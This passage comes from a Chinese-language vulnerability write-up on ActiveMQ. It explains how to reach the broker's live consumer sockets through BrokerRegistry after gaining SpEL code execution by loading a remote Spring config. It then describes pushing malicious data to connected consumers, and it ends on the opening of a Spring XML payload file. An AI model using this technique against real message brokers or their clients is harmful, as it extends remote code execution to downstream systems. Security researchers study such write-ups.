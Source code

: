在该方法中存在一个单例，可以获取到BrokerRegistry，进而获取到broker实例。在broker实例里面简单找了找，很轻松的找到了已经建立的消费链接，\[Active Transport\]的即是。

![](assets/1701826889-fefff9289309066a973ee1ce8ca13e80.jpg)

获取到Socket后，直接开推恶意数据。这里通过先让Broker加载远程配置文件在Broker上实现SPEL代码执行后，通过代码执行获取消费者socket推送恶意数据，加载远程配置文件。上面也说到了消费者默认开启了tightEncodingEnabled，所以需要使用tightEncodingEnabled的Exp。经过测试，漏洞利用后不会将消费打挂。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:context="http://www.springframework.org/schema/context"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans-4.0.xsd
            http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context-4.0.xsd">

    <context:property-placeholder ignore-resource-not-found="false" ignore-unresolvable="false"/>

    <bean class="java.lang.String">
```